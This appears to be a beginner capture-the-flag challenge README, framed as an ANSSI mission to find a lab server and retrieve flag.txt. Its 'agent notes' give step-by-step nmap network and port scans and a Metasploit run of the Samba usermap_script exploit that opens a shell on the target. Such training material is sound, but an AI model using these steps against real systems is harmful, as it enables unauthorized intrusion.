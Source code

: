 # Mission Order

During your second-year internship, you had the chance to join the ANSSI (National Agency for Information Systems Security) for a few months. One of the agents on your team has stolen a server containing information that you absolutely need to recover. The ANSSI management trusts you and gives you carte blanche to retrieve this information.

Your mission is to retrieve the information contained in the `flag.txt` file located on the server. This server has been connected somewhere on the ANSSI network. ANSSI provides you with a Kali Linux machine to attack the server. Find the server, attack it, and retrieve the file.

The security of France depends on it. Good luck, agent.

PS: The agent who stole the server left you his notes to help you hack the server.

# Agent White's Notes

Agent White left his personal notes on how to hack a server. Here is what he wrote:

## Network Scan

First, I need to know the network I am on. For this, I can use the `ifconfig` command to know my IP address and subnet mask.

```bash
ifconfig
```

Ok, I know my IP address and subnet mask. Now I need to scan the network to find the server. I can scan the network with a tool called `nmap`. This tool allows you to scan the open ports on a machine (ports are connection points to a machine). To scan the network, I can use the following command:

```bash
nmap -sn <IP>/<mask>
```

## Port Scan

Now that I know the machines connected to the network, I need to scan the open ports on these machines to find a vulnerability. For this, I can use the following command:

```bash
nmap -p- -A <IP>
```

If there are open ports, I can try to hack the server; otherwise, I need to look for another machine.

If I find a machine with open ports, I can try to hack the server. For this, I can use tools like `metasploit`. This tool allows you to find vulnerabilities in the services running on the server and exploit them to take control of the server.

## Exploitation

A colleague recently told me about a vulnerability in the Samba service `microsoft-ds` (file servers for Microsoft). Here's how he exploited it:

```bash
# Open metasploit
msfconsole
# Search for the module to exploit the vulnerability
msf6 > search samba
# Load the module
msf6 > use exploit/multi/samba/usermap_script
# Configure the module
msf6 > show options
msf6 > set RHOSTS <SERVER_IP>
msf6 > set LHOST <KALI_IP>
# Execute the module
msf6 > exploit
```

From there, he should be on the machine, but I don't remember the next steps.

## Handy Linux Commands

Some Linux commands I use often:

```bash
# List files and directories in the current directory
ls
# Change directory
cd <directory_name>
# Read the contents of a file
cat <file_name>
# Display the path of the current directory
pwd
```
